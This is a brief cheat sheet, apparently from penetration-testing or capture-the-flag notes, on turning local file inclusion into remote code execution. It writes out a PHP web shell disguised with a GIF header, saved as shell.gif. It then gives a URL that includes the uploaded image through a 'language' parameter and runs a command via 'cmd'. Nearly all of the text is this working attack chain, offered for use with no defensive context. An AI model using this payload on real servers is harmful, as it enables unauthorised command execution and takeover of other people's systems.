 # LFI


```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

access via url to get RCE
```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```